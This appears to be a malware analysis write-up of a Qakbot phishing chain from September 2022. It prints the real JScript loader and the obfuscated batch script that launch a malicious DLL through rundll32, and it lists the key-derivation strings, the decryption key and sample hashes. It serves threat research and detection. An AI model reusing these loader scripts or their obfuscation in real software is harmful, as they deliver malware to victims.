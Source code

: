 # Qakbot 30 September 2022

## Intro

Three days ago a friend of mine received a phishing e-mail with a link (https[:]//lynxus[.]com/usq/refeidpisnretse) containing a zip file protected by the password "U492". 

<img width="1262" alt="0" src="https://user-images.githubusercontent.com/15001354/193664727-69ee625c-3a4d-4eea-8e71-5e718b625086.png">

Inside the zip there is an ISO called Learn#7435.iso containing a shortcut to the following malicious script:

~~~
// observablyCleaned
var undisruptedPuzzles = "rund DllRegis";

// ShellExecute
var bridgeheadsLibels = new ActiveXObject("shell.application").shellexecute("assaulting\\redressingLamentations.cmd", undisruptedPuzzles, "", "open", 0);
~~~

<img width="1134" alt="1" src="https://user-images.githubusercontent.com/15001354/193664786-75664000-6658-4582-9d27-258bd18f9d39.png">


The script uses ActiveXObject in order to execute another script called redressingLamentations.cmd (in the ISO) by passing the arguments "rund" and "DllRegis". 

Following the redressingLamentations.cmd script:

~~~
@echo off

	set a=ll
	set e=32

	:: tankageLicentiously
	%1%a%%e% assaulting\tiddler.dat,%2terServer

exit
~~~

It runs the command rundll32 assaulting\tiddler.dat,DllRegisterServer in order to start the malicious DLL.

## First Stage

After a bit of analysis, I wrote this simple script to extract the loader in order to practice a bit with python. 
The two strings used to generate the key are taken dynamically, the shellcode is taken dynamically by using the size offset that is hardcoded.


The malicious DLL was uploaded to [Malware Bazaar](https://bazaar.abuse.ch/sample/5b54f57dbaa74fa589afb2d26d6c6b39e0c2930bd88fea3172556ce96b3eb959/) by JAMESWT_MHT.


These two strings are used to generate the key:

* ewZOSoNXdJTjGtfGFtJwDGnslgItKrqSOoXTBEUIeNsATwlqubQMeKZByuBEOxjyadypZOaxQyRosZjVcChW
* gjdhkdfgkjsdghfkjsdhkjslfdghsdkjl

The key is:

* 7fafab656017bf33b9606982e6a6f277

HASHES:

* SHA256: 5B54F57DBAA74FA589AFB2D26D6C6B39E0C2930BD88FEA3172556CE96B3EB959

* SHA1: 4aa4e28cd07e218e45ec60942c53d82c3f50fea7

* MD5: 7754a35deec807d757f79165ba17708d


## Second Stage

Extracted DLL from tiddler.dat

HASHES:

* SHA256: 8b08c031d365a0b4d032c6e51bf773655e15795fe3eabcd3fa6487ffe9f3d6b3

* SHA1: cd0528db38e743c619341d3a542748be86d9ba72

* MD5: b8fb226a54197955a05705be00ff2d07

